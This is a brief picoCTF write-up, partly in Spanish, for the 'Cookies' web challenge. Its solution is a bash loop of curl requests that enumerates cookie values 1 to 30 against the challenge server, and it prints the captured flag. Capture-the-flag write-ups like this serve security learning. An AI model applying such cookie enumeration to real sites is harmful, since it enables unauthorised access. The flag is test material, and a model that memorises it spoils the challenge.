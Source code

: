 ## Descripción

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Pistas

(None)

## Solución

`for i in {1..30}; do curl http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done`

`for i in {1..30}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep 'picoCTF{'`

`OmarSC-picoctf@webshell:~$ for i in {1..30}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep 'picoCTF{'`
            `<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>`
`OmarSC-picoctf@webshell:~$` 




## Notas Adicionales



## Referencias
- 

